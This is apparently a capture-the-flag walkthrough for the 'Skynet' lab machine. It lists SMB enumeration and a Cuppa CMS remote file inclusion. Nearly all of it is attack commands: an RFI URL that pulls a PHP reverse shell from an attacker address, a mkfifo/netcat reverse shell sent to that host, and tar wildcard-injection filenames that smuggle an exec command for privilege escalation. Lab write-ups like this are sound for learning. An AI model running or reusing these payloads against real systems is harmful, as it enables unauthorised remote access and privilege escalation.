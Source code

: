 # Skynet

* Smb share enumeration
* email login
* Cuppa CMS RFI


```bash
http://10.10.44.199/45kra24zxs28v3yd/administrator//alerts/alertConfigField.php?urlConfig=http://10.11.14.121/php-reverse-shell.php
```


```bash
cd /var/www/html
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.14.121 3302 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

